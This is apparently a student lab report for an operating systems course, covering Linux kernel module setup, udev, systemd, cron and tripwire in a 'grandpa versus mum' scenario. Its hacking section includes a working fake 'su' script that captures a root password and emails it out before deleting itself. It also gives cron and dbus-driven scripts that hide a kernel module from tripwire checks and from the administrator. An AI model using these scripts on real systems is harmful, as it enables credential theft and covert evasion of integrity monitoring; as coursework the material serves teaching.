

<div style="width:60%;height:200px;text-align:center;border:14px solid #808080;border-top:none;border-left:none;border-bottom:none;display:inline-block">
    <div style="border:4px solid #808080;border-radius:8px;width:95%;height:100%;background-color: rgb(209, 209, 209);">
        <div style="width:100%;height:30%;text-align:center;line-height:60px;font-size:26px;font-family:'Lucida Sans', 'Lucida Sans Regular', 'Lucida Grande', 'Lucida Sans Unicode', Geneva, Verdana, sans-serif;">VE482 Lab Report</div>
        <div style="width:100%;height:10%;text-align:center;line-height:26px;font-size:20px;font-familny:'Lucida Sans', 'Lucida Sans Regular', 'Lucida Grande', 'Lucida Sans Unicode', Geneva, Verdana, sans-serif;"><b>Lab 10</b> - Fall 2020</div>
        <div style="width:100%;height:57%;text-align:center;font-size:16px;line-height:22px;font-family: 'Courier New', Courier, monospace;font-weight:300;"><br><b>Boming Zhang<br>Chujie Ni<br>Qinhang Wu<br>Zhimin Sun<br></b></div>
    </div>
</div>
<div style="width:35%;height:200px;display:inline-block;float:right">
    <div style="width:100%;height:25%;text-align:center;line-height:55px;font-size:20px;font-family:'Lucida Sans', 'Lucida Sans Regular', 'Lucida Grande', 'Lucida Sans Unicode', Geneva, Verdana, sans-serif;"><b>Table of Contents</b></div>
    <div style="width:100%;height:75%;text-align:left;margin-left:2px;line-height:30px;font-size:13px;font-family:Verdana, Geneva, Tahoma, sans-serif;font-weight:300;">• Linux Kernel Module<br>• Baby Security<br>• Linux System Management<br></div>
</div>


[TOC]

## Ex1 Kernel Module Setup

**Where to copy the dice module for it to be officially known to the kernel?**

- `/lib/modules`: a dirty way
- `/lib/modules/$(uname -r)/kernel/drivers/char`: a better way for this dice device

**What command to run in order to generate the `modules.dep` and `map` files?**

- `depmod`

**How to ensure the dice module is loaded at boot time, and how to pass it options?**

- modify `/etc/modules`, add dice module to it with `dicedevice gen_sides=200`

**How to create a new `friends` group and add grandpa and his friends to it?**

- ```shell
  $ sudo groupadd friends
  $ usermod -a -G friends grandpa
  $ usermod -a -G friends friend0
  $ usermod -a -G friends friend1
  ```

**What is `udev` and how to define rules such that the group and permissions are automatically setup at device creation?**

- `udev` is a replacement for the Device File System (DevFS), a device manager for the Linux kernel. It allows you to identify devices based on their properties, like vendor ID and device ID, dynamically.
- modify the rules stored in `/lib/udev/rules.d/*.rules`, e.g. `KERNEL=="dice0", ATTRS{idVendor}=="16c0", MODE="0666"`


## Ex2.1 Hacking
### Theoretical Background

**How adjust the PATH, ensure its new version is loaded but then forgotten?**

- modify `~/.bashrc`, add `export PATH=WHERE_YOUR_SU_IS:$PATH` as the last line, and remove it after the script is finished

**What is the exact behaviour of su when wrong password is input?**

- use `perror` to output `su: Authentication failure` to stderr

**When using the read command how to hide the user input?**

- use `read -i`

**How to send an email from the command line?**

- after preparation, `mail -s TITLE MAIL_TO <<< CONTENT`

### Preparation

```shell
$ sudo apt install mailutils
$ sudo apt install ssmtp
$ sudo cat /etc/ssmtp/ssmtp.conf
#
# Config file for sSMTP sendmail
#
# The person who gets all mail for userids < 1000
# Make this empty to disable rewriting.
root=boyanzh233@163.com

# The place where the mail goes. The actual machine name is required no
# MX records are consulted. Commonly mailhosts are named mail.domain.com
mailhub=smtp.163.com:465

# Where will the mail seem to come from?
#rewriteDomain=

# The full hostname
#hostname=BoYanZh-PC.localdomain

# Are users allowed to set their own From: address?
# YES - Allow the user to specify their own From: address
# NO - Use the system generated From: address
#FromLineOverride=YES

AuthUser=boyanzh233@163.com
AuthPass=AUTHPASSFORTHEMAIL
UseTLS=Yes
$ sudo cat /etc/ssmtp/revaliases
# sSMTP aliases
#
# Format:       local_account:outgoing_address:mailhub
#
# Example: root:your_login@your.domain:mailhub.your.domain[:port]
# where [:port] is an optional port number that defaults to 25.

boyanzh:boyanzh233@163.com:smtp.163.com:465
$ echo "PATH=\$PATH:WHERE_YOUR_SU_IS" >> ~/.bashrc
$ exec bash
```

### Implementation
Simple script named after `su` to hack mum's computer:

```shell
$ cat su
#!/bin/bash

mailto=bomingzh@sjtu.edu.cn

getPasswd() {
    echo -e "Password: \c"
    read -s password
    echo
    mail -s 'root password of mum' $mailto <<< $password
    echo "su: Authentication failure"
}

clean() {
    echo $1
    rm -- "$0"
    head -n -1 ~/.bashrc > ~/.bashrc.tmp
    mv ~/.bashrc.tmp ~/.bashrc
    exit 1
}

echo "bad su" # for debug purpose
getPasswd
clean
```

Result:

[](https://imgchr.com/i/Dq6sN4)

## Ex2.2 Automatic Setup
### Theoretical Background
**What is `systemd`, where are service files stored and how to write one?**
- `systemd` (system-daemon) is a service manager for Linux systems. When run as the first process (PID=1), it initialize the system by bringing up and maintaining userspace services.
- Service files are usually stored in `/etc/systemd/system/`, `/lib/systemd/system/` and so on. You may use `sudo find / -name *.service | grep "name"` to locate the systemd service file related with name.
- In order to write a service file, it should contains three sections: [^1]
    - `[Unit]` that describes the unit's general behavior and dependency.
        - `Description=` brief info about this service
        - `After=` services needed to be started before this (seperated by space)
        - `Before=` services needed to be started after this
        - `Requires=` hard dependencies
        - `Wants=` soft dependencies
    - `[Service]` that describes the unit's specific behavior when it is started, stopped, restarted or reloaded.
        - `EnvironmentFile=` location of the parameter configuration file
        - `ExecStart=` / `ExecStartPre=` / `ExecStartPost=` the command to be executed when / before / after a service starts
        -  `Type=` the way to start the process, one out of `simple` / `forking` / `oneshot` / `dbus` / `notify` 
    - `[Install]` that describes options related with the service installation.
        - `WantedBy=` targers depend on this

**How to get a systemd service to autostart?**
- `sudo systemctl enable service_name`, just replace `service_name`.

**What is the difference between running `tmux` from the `systemd` service or from the `gp-2.10` daemon?**
- Running `gp-2.10` directly in the shell will create a process, and will be killed after the session is closed.
- Running the daemon in `tmux` allows us to reattach to the window at any time and do other operations.
- Running `tmux` from `systemd` allows the `tmux` session to be created when the system is booted. Since `/etc/systemd` directory is not monitored, the behavior will not be tracked.

**What is `dbus` and how to listen to all the system events from the command line?**
- `dbus` is an approach of inter-process communication that allows processes to communicate information between each other. Specially, it can let one process request services and invoke methods from a different process.
- we can use `dbus-monitor --system` to listen to all the system events. It will print all the monitored messages onto the console. Note: it requires root privilege.

**What is `tmux`, when is it especially useful, and how to run a detached session?**
- `tmux` (terminal multiplexer) is used to create a separate session. Note: it is not installed by default.
- It is usually useful in two cases: 1) leave the current terminal sessions and return back without terminating the running process; 2) split the screen (`tmux split-window` after creating a separate session)

**What is `tripwire`, what are some alternatives, and why should the configuration files also be encrypted and their corresponding plaintext deleted?**
- `tripwire` is a system detecter that constantly monitors critical system files and reports whenever they're modified.
- alternatives: Ossec, Samhain, AIDE, Osquery and so on [^2]
- the configuration files should also be encrypted since they're in charge of some critical behaviors of certain sensitive processes (such as starting another process or something).

**What is cron and how to use it in order to run tasks at a specific time?**
- Cron[^3] is **a scheduling daemon** that executes tasks (in the background), which are called cron jobs, at specified intervals. Jobs are usually used to automate system maintenance or administration.
- Before start, we first need to know `crontab`, which is the config file for cron. It's usually edited by command `crontab`, and the command in it will be executed according to the time set by user. Syntax for `crontab` file is shown below:
  ```
  minute hour day month weekday COMMAND

  * * * * * command
  - - - - -
  | | | | |
  | | | | ----- Day of week (0 - 7) (Sunday = 0 or 7)
  | | | ------- Month (1 - 12)
  | | --------- Day of month (1 - 31)
  | ----------- Hour (0 - 23)
  ------------- Minute (0 - 59)
  ```
- Special syntax: Some special strings can be used to offer shortcut, like `@reboot`, means running the specified command once, at start up.

### Implementation

#### First Strategy
Suppose the `cron` settings for `tripwire` looks like:

```bash
0 0 * * * tripwire --check --email-report
```

We can then add some tasks before it to remove the dice modules:

```bash
59 23 * * * rmmod dicedevice && rm -f /dev/dice /dev/dice[0-2]
59 23 * * * systemctl stop gp
0  0  * * * tripwire --check --email-report
```
This will simply remove the module, delete the devices, and stop the system service before the `tripwire` begin to check the files. Modifying the configuration of `crontab` should be easy since `/etc/cron` is not monitored.

Also, we can choose to reload the module after `tripwire` finishes its work, but it's hard to implement since we cannot know the exact time `tripwire` finishes.

#### Second Strategy
During the rest of time, what we need to do is to run a script to monitor dbus info, and remove the module immediately when mom logs in, or load the module when grandpa logs in.

Assume the script is located at `/usr/bin.gp-2.10`:

```shell
#!/bin/sh

DBUSCMD=dbus-monitor
DBUSOPTS=--session --profile

cleanup() {
    module="dicedevice"
    device="dice"

    # invoke rmmod
    /sbin/rmmod $module || exit 1

    # Remove stale nodes

    rm -f /dev/${device} /dev/${device}[0-2]
}

welcome() {
    module="dicedevice"
    device="dice"
    mode="664"

    # invoke insmod
    # and use a pathname, as newer modutils don't look in . by default
    /sbin/insmod /lib/module/$module.ko gen_sides=200|| exit 1

    # remove stale nodes
    rm -f /dev/${device}[0-2]

    major=$(awk "/${device}/ {print $1}" /proc/devices)


    mknod /dev/${device}0 c $major 0
    mknod /dev/${device}1 c $major 1
    mknod /dev/${device}2 c $major 2

    # give appropriate group/permissions, and change the group.
    # Not all distributions have staff, some have "wheel" instead.
    group="staff"
    grep -q '^staff:' /etc/group || group="wheel"

    chgrp $group /dev/${device}[0-2]
    chmod $mode  /dev/${device}[0-2]
}

$DBUSCMD $DBUSOPTS | while read line; do

	connected=$(echo $line | awk {print $7})

	# catch mum login and clean up everything
	# catch grandpa connecting and setup eveything
	case "$connected" in
		mum)
			cleanup;
			;;
		grandpa)
			welcome;
			;;
	esac  
done
```

the service file `gp.service` (may also be some other harmless names): (should be copied into `/etc/systemd/system`)
```
[Unit]
Description=grandpa's auto detector

[Service]
User=grandpa
Group=friends
Type=forking
RemainAfterExit=yes
ExecStart=/usr/bin/tmux new-session -d -s gp -c 'sh /usr/bin.gp-2.10'
ExecStop=/usr/bin/tmux kill-session -t gp

[Install]
WantedBy=multi-user.target
```

Then grandpa can use `systemctl` to launch a tmux session secretly like (may need to use `systemctl daemon-reload` before running):
The system service will create a tmux session in background, and run the `/usr/bin.gp-2.10` to monitor dbus. As long as mom logs in, the dice module will be removed.

Furthermore, since we specify the group and user, this tmux session should only be visible to grandpa.

## Reference

[^1]: Egidio Docile, “How to create systemd service unit in Linux - LinuxConfig.org,” Linuxconfig.org, Nov. 28, 2018. https://linuxconfig.org/how-to-create-systemd-service-unit-in-linux (accessed Dec. 03, 2020).
[^2]: "5 Best Tripwire Alternatives in 2020 - DNSstuff," Software Reviews, Opinions, and Tips - DNSstuff, Jun. 02, 2020. https://www.dnsstuff.com/tripwire-alternatives (accessed Dec. 03, 2020).
[^3]: "How to Use Cron to Schedule Tasks" https://linuxiac.com/how-to-use-cron-to-schedule-tasks-the-complete-beginners-guide/ (accessed Dec. 06, 2020).
